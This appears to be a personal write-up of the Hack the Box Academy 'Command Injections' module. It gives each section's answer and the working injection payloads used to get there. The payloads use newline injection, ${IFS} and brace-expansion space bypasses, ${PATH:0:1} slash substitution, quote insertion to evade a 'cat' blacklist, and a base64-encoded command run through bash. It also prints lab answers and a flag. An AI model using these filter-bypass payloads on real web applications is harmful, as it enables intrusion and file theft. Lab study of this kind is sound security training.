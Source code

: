 # Command Injections
* Source: [Hack the Box: Academy](https://academy.hackthebox.com/)
* Module: Command Injections
* Tier: II
* Difficulty: Medium
* Category: Offensive
* Time estimate: 6 hours
* Date: 12-05-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Detection
### Question:
![](./attachments/Pasted%20image%2020220512181746.png)

*Hint: Use Firefox or Chrome. It should start with "Please"*

![](./attachments/Pasted%20image%2020220513102509.png)

**Answer:** `Please match the requested format.`

---
## Injecting Commands
### Question:
![](./attachments/Pasted%20image%2020220512181825.png)

*Hints: You can either user burp or click `CTRL + U` in Firefox to show the source code*

![](./attachments/Pasted%20image%2020220513104047.png)

**Answer:** `17`

---
## Other Injection Operators
### Question:
![](./attachments/Pasted%20image%2020220512181939.png)

![](./attachments/Pasted%20image%2020220513104519.png)

**Answer:** `|`

---
## Identifying Filters
### Question:
![](./attachments/Pasted%20image%2020220512182009.png)

*Hint: Just see which injected characters does not cause a denied request. No need to reach command execution yet, as there are other protections in place.*

New Line character `\n` encoded as URL `%0a` is not blacklisted.

Payload: `%0a`

![](./attachments/Pasted%20image%2020220513121755.png)

**Answer:** `new-line`

---
## Bypassing Space Filters
### Question:
![](./attachments/Pasted%20image%2020220512182054.png)

*Hint: The size column (in bytes) is between the owner 'www-data' and the modification date.*

Working payloads for bypassing blacklisted space, ` `:

Payload 1: `%0a{ls,-la}`

Payload 2: `%0A%09ls%09-lah`

Payload 3: `%0A${IFS}ls${IFS}-la`

![](./attachments/Pasted%20image%2020220513121427.png)

**Answer:** `1813`

---
## Bypassing Other Blacklisted Characters
### Question:
![](./attachments/Pasted%20image%2020220512182139.png)

*Hint: Use the PATH environment variable along with the injection character you identified earlier*

Working payloads for bypassing blacklisted `/`:

Payload 1: `%0a{ls,${PATH:0:1}home}`

Payload 2: `%0A%09ls%09${PATH:0:1}home`

Payload 3: `%0A${IFS}ls${IFS}${PATH:0:1}home`

![](./attachments/Pasted%20image%2020220513122943.png)

**Answer:** `1nj3c70r`

---
## Bypassing Blacklisted Commands
### Question:
![](./attachments/Pasted%20image%2020220512182222.png)

*Hint: Use character insertion to bypass the blacklist on the 'cat' command.*

First, we need to locate 'flag.txt'

Payload: `%0a{ls,${PATH:0:1}home${PATH:0:1}1nj3c70r}`

![](./attachments/Pasted%20image%2020220513125949.png)

We can bypass the blacklisted `cat` command by adding a two `'`s. 

Payload: `%0a{c'a't,${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt}`

![](./attachments/Pasted%20image%2020220513125735.png)

**Answer:** `HTB{b451c_f1l73r5_w0n7_570p_m3}`

---
## Advanced Command Obfuscation
### Question:
![](./attachments/Pasted%20image%2020220512182300.png)

*Hint: Don't forget to bypass any filtered characters*

Using Base64 encoding to bypass filters:

![](./attachments/Pasted%20image%2020220608163429.png)

To make the payload useful, all we need to do is bypass the space. This can de done with `${IFS}`, `%09` or `{`x`,`x`}`.

Payload: `%0abash<<<$({base64,-'d'}<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)`

![](./attachments/Pasted%20image%2020220608163841.png)

**Answer:** `/usr/share/mysql/debian_create_root_user.sql`

---
## Skills Assessment
### Question:
![](./attachments/Pasted%20image%2020220512182411.png)

*Hint: It is always easier to inject our command in an input going at the end of the command, rather than in the middle of it, though both are possible.*



**Answer:** ``

---
**Tags:** [[Hack The Box Academy]]